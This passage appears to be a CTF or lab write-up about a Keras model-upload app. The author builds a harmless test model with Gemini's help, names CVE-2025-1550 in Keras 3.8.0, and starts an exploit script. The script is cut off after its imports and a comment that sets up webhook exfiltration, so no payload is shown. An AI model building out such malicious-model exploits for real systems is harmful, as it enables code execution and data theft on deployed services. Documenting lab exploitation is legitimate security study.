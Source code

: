 ```dockerfile
```

So I created a basic `.keras` model using the below code generate via Gemini:

```python
import keras

# Create a simple Sequential model
model = keras.Sequential([
    keras.layers.Dense(units=1, input_shape=(10,), activation='relu', name='first_layer'),
    keras.layers.Dense(units=1, activation='sigmoid', name='output_layer')
])

# Compile the model (necessary for saving in some older Keras versions, good practice)
model.compile(optimizer='adam', loss='binary_crossentropy', metrics=['accuracy'])

# Save the model in the native Keras v3 format (.keras)
model_filename = 'basic_valid_model.keras'
model.save(model_filename)

print(f"A basic, valid Keras model has been saved as: {model_filename}")
print("You can try uploading this file to verify the 'Model is valid' message.")
```

Uploading it showed success:

![](images/CleanShot%202025-05-30%20at%2010.22.18@2x.png)
I ran both Snyk and Semgrep on the app.py file, neither identified anything huge... sus. Gemini says that due to the Keras version (3.8.0), it is vulnerable to CVE-2025-1550. Which actually seems likely, so I'll give exploitation a shot now that I have valid test data.

I ended up trying this, but didn't get any luck:

```python
import tensorflow as tf

from tensorflow import keras

import os

import json

import zipfile

import shutil

import urllib.request # Using urllib.request for HTTP requests, commonly available in slim Python images

  

# --- CONFIGURATION FOR WEBHOOK EXFILTRATION ---

# IMPORTANT: Replace this with your actual webhook URL.

# You can use services like webhook.site, requestbin, or your own server.
```